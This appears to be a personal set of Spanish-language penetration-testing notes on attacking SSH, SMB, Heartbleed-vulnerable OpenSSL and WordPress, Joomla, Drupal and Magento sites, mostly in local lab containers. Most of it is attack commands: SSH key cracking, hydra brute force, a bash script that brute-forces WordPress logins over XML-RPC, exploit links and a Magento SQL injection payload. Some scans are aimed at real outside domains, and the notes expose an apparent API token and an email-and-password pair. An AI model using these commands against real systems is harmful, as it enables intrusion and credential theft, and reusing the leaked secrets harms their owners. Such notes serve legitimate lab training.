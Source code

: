 > En google filtrar por "Nombre de gestor de contenido" vulnerability scanner github
---
## Enumeración Servicio SSH
---
> Petar Priv Key **ssh**

- Si encontramos clave privada 
```bash
sudo ssh2john id_rsa > hash.txt 
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh  hash.txt
```


> Bruteforce a ssh 

```bash
hydra -l sergsec -P passwd.txt ssh://127.0.0.1 -s 2222
```


> Codename

- Simplemente saber la versión con nmap -sVC y buscarla en google acompañada de "launchpad" para encontrar el **Codename**
![[Pasted image 20250310171433.png]]

![[Pasted image 20250310171612.png]]

-----
## Enumeración Servicio HTTP

Atacaremos al docker que hay en ➡️ https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

- Arroja info de certificados ssl si es vulnerable a **heartbleed** la cuál podremos explotar

> ***Heardtbleed:*** vulnerbailidad que aprovecha el acceso a un server a través de la memoria por una missconfig de OpenSSL


```bash
openssl s_client -connect tinder.com:443 fincasperezmunoz.com
```

- **sslscan:** se enfoca en evaluar la seguridad de las configuraciones de  certififcados SSL

```bash 
sslscan fincasperezmunoz.com
```

- **sslyze:** se centra en la **identificación** de los **protocolos** SSL/TLS admitidos por el servidor y los cifrados utilizados.
```bash
sslyze fincasperezmunoz.com
```


sslscan 127.0.0.1:8443

Atacamos a vulhub/openssl/CVE-2014-0160

![[Pasted image 20250310175452.png]]

![[Pasted image 20250310175548.png]]

>Con esta vuln conseguimos divulgación de info
- https://github.com/H4R335HR/heartbleed/blob/main/heartbleed.py
- https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/ssltest.py

```bash
python3 ssltest.py 127.0.0.1 -p 8443 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"

```

## Enumeración del servicio SMB

- **Recon**
- Listaremos info y no nos pide credens
```bash
smbclient -L 127.0.0.1 -N
```

![[Pasted image 20250310181350.png]]

```bash
smbmap -H 127.0.0.1  
```

![[Pasted image 20250310182618.png]]

netexec smb 127.0.0.1
![[Pasted image 20250310183902.png]]

- Con  **nmap -A**  a veces da más info
![[Pasted image 20250310182505.png]]

- **Intrusión**
1. Accedemos sin passwd
``` bash
smbclient //127.0.0.1/myshare -N
```

2. Podemos ejecutar los comandos 
**put,get,dir

```bash
mount -t cifs //127.0.0.1/myshare aquitemonto -o username=null,password=null,domain=,rw
```

****Cuidado porque se crea un enlace simbólico y lo que editemos en local se crea en la máquina real

## Enumeración de (CMS) – WordPress
> Una vez dentro de la máquina, buscar los archivos con credenciales **POR FAVOR**

- Enumerar plugins, después buscar exploit
```bash
sudo nmap -sV --script http-wordpress* --script-args http-wordpress-enum.root="/wordpress/",check-latest=true,search-limit=700  -p80 -v -Pn -n -T3 -oA wordpress remote.nyx
```

- Docker con wordpress vulnerable en --> https://github.com/vavkamil/dvwp

`kajacak514@dwriters.com:Wpscan,1023`

```bash
wpscan --api-token 8t2BRF83up8MueGSfRN322DsVM5xVStanr57aowC8bQ --detection-mode mixed --rua --disable-tls-checks -e u,dbe,cb,vp,vt -v -o salida.wpscan --url http://127.0.0.1:31337
```

```bash
searchsploit wordpress user enumeration
```

```bash
searchsploit -x 41497 
```

- Regex para ver plugins del source code de wordpress, muestra únicamente los plugins
```bash
curl -s -X GET "http://127.0.0.1:31337" | grep -oP "plugins/\K\[^/]+" | sort -u
```

![[Pasted image 20250311004048.png]]

![[Pasted image 20250311004133.png]]

- **Para descargar exploit
```
searchsploit -m php/webapps/46794.py 
```

- **BForce a XMLRPC
```bash
wpscan --api-token --url http://127.0.0.1:31337 -U sergsec -P /usr/share/wordlists/rockyou.txt
```

Copiar script en bash y crear una carpeta payloads con él

- A través del método  **wp.getUsersBlogs** , bruteforcearemos con un script en bash

```bash
trap ctrl_c SIGINT

function createXML( ){

    password=$1  

   xmlFile="""
<? xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>serg</value></param> # cambiar user
<param><value>$password</value></param>
</params>
</methodCall>"""

    echo $xmlFile > file.xml
    response=$(curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml) # cambiar target  

if [ ! "$(echo $response | grep 'Incorrect username or password. ' )" ]; then
    echo -e "\n[+] La contraseña para el usuario serg es $password"
    exit 0
fi
}
cat /usr/share/wordlists/rockyou.txt | while read password; do # cambiar wordlist si aplicase
    createXML $password
done
```

## Enumeración de Joomla

Simplemente vamos a enumerar que es lo que podemos ver y que CVE o directorios tiene la máquina 
> **Utilizaremos:**
> https://github.com/OWASP/joomscan.git

```bash
perl joomscan.pl -r -ec -u http://192.168.1.135:8080/
```

## Enumeración de Drupal

```bash
whatweb http://127.0.0.1:8080 


./ffuf -c -t 200  -w /usr/share/wordlists/dirb/common.txt -u http://localhost:8080/FUZZ/ 
```

> Esto nos devuelve whatweb
`http://127.0.0.1:8080 [200 OK] Apache[2.4.25], Content-Language[es], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[127.0.0.1], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Bienvenido a SitiodeSergioSec | SitiodeSergioSec], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
`

`https://github.com/SamJoan/droopescan`

droopscan scan drupal --url https:127.0.0.1:8080

**No reporta nada**

> Con Burp le mandamos esta request al registrar un user

![[Pasted image 20250312195231.png]]


## Enumeración a Magento


- Utilizamos Este repositorio para ello , nos aclara las rutas, y versiones 
> `https://github.com/steverobbins/magescan`

`php magescan.phar scan:all http://Ip:port`

>Dejaré este script en python en la misma carpeta que el repo de magscan
>>[SqliMagento](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py)

- **Este script prueba en la ruta que especifico abajo SQLI**
>Necesitaremos que haya sesiones activas para poder robarlas cookies

`https://ejemplo.com/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][product_id][to]=))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 123=123) `

